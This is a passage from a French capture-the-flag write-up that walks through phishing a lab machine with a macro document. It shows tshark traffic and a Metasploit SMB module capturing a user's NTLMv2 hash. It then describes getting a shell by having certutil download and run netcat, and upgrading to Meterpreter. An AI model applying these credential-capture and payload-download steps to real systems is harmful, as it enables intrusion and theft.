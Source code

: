 On envoi le document à tous les destinataires du carnet d'adresse et on attend. Au bout d'un moment il y a de l'activité dans le *tshark* :  

```plain
 1 0.000000000  10.10.10.71 → 10.10.15.90  TCP 52 54540 → 445 [SYN] Seq=0 Win=8192 Len=0 MSS=1357 WS=256 SACK_PERM=1
 2 0.000049420  10.10.15.90 → 10.10.10.71  TCP 52 445 → 54540 [SYN, ACK] Seq=0 Ack=1 Win=29200 Len=0 MSS=1460 SACK_PERM=1 WS=128
 3 0.027699057  10.10.10.71 → 10.10.15.90  TCP 40 54540 → 445 [ACK] Seq=1 Ack=1 Win=66304 Len=0
 4 0.027824577  10.10.10.71 → 10.10.15.90  SMB 199 Negotiate Protocol Request
 5 0.027853649  10.10.15.90 → 10.10.10.71  TCP 40 445 → 54540 [ACK] Seq=1 Ack=160 Win=30336 Len=0
 6 0.046989753  10.10.15.90 → 10.10.10.71  SMB 125 Negotiate Protocol Response
 7 0.080186409  10.10.10.71 → 10.10.15.90  SMB 268 Session Setup AndX Request, User: HTB\Raziel; Tree Connect AndX, Path: \\10.10.15.90\IPC$
 8 0.131207779  10.10.15.90 → 10.10.10.71  TCP 40 445 → 54540 [ACK] Seq=86 Ack=388 Win=31360 Len=0
 9 0.645411556  10.10.15.90 → 10.10.10.71  SMB 79 Session Setup AndX Response, Error: STATUS_LOGON_FAILURE
10 0.870946871  10.10.10.71 → 10.10.15.90  TCP 40 54540 → 445 [ACK] Seq=388 Ack=125 Win=66304 Len=0
```

et aussi sur le module auxiliaire de capture SMB :  

```plain
[*] SMB Captured - 2018-05-31 20:15:14 +0200
NTLMv2 Response Captured from 10.10.10.71:54540 - 10.10.10.71
USER:Raziel DOMAIN:HTB OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:3d87ccd87f54c4a87f114e8f911d8573 
NT_CLIENT_CHALLENGE:0101000000000000c4bd83f002f9d3016e947c7a98c1fec900000000020000000000000000000000
```

C'est très important d'avoir défini l'option *JOHNPWFILE* sur ce module car il permet d'obtenir le hash sous un format adapté à JTR et hashcat... Je ne sais pas comment l'obtenir depuis juste l'output :p   

La bonne nouvelle c'est que l'on a une bonne réponse et que l'on sait qui ouvre les documents. La mauvaise c'est que le hash s'est avéré trop fort pour être cassable...  

J'ai essayé à peut près toutes les méthodes pour obtenir un shell sur la machine depuis la macro : téléchargement via bitsadmin, certutil, regsvr32, tftp et j'en passe...  

Bref j'ai essayé beaucoup de choses qui ont toutes fonctionnés parfaitement en local sur un Windows 10 avec *Windows Defender* qui tournait et avec *LibreOffice*.  

Peut-être que OpenOffice est légèrement différent en terme de Macros, ce qui serait cependant étonnant...  

Au vu de tout ça j'ai demandé à [@h4d3sw0rm](https://twitter.com/h4d3sw0rm) la technique qu'il avait employé et il suffisait d'utiliser *certutil* pour télécharger sans encodage préalable un netcat dans *c:\temp* (ça il fallait le deviner) et l'exécuter.  

D'autant plus énervant qu'en local *Defender* bloquait toute utilisation de *certutil* pour le téléchargement... Il y a quelques ratés sur ce CTF qui ont agacé beaucoup de monde.  

Une fois le shell netcat obtenu on peut l'upgrader vers un Meterpreter mais avec Defender la plupart des techniques sont bloquées. J'ai profité de la présence de PHP sur le système avec le module web\_delivery :  
